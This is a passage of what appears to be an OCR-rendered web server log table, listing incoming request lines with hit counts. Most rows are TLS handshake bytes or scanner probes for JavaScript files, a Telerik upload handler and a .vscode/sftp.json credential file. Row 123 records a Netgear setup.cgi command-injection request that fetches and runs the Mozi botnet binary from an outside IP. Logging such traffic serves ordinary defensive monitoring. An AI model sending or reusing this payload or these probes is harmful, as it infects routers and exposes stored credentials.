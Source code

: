 | 121 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xCD\xBFH<g\x9C\xA6\x86\xA0\x85Lu\xABS\x97\xD7J\xD0T\x9A\xE6\xD0\x1F\x189\xD7\xB4_\xC4\xA5\xBB\x8F ]\x05\x13\xF1\x9B\xB3\x00\xB7                                                                                                                                                                                                 |
| 122 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x034\xA1\xE0\xC1I\xEF\xFF\x140A .X\xEC\xDA\xAAI\xE8c                                                                                                                                                                                                                                                                                      |
| 123 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.196.166.34:55948/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                |
| 124 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03A\x1E \xA2\xC9\xF5                                                                                                                                                                                                                                                                                                               |
| 125 |                     1 | GET /site.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
| 126 |                     1 | GET /common.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
| 127 |                     1 | GET /global.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
| 128 |                     1 | GET /bundle.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
| 129 |                     1 | GET /index.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
| 130 |                     1 | GET /app.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                         |
| 131 |                     1 | GET /main.js HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
| 132 |                     1 | GET /Telerik.Web.UI.WebResource.axd%3Ftype=rau HTTP/1.1                                                                                                                                                                                                                                                                                                                      |
| 133 |                     1 | GET /.vscode/sftp.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                              |
| 134 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xB8s\xF1\xB4{RG\xBFc\x160\x0C/\xC0\xFF%\x0FwB\x0FT\xC0\xC3\xC2\xD9\xE6\x84s\xEC\xD3$\xEA\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                            |
| 135 |                     1 | GET /sellers.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                   |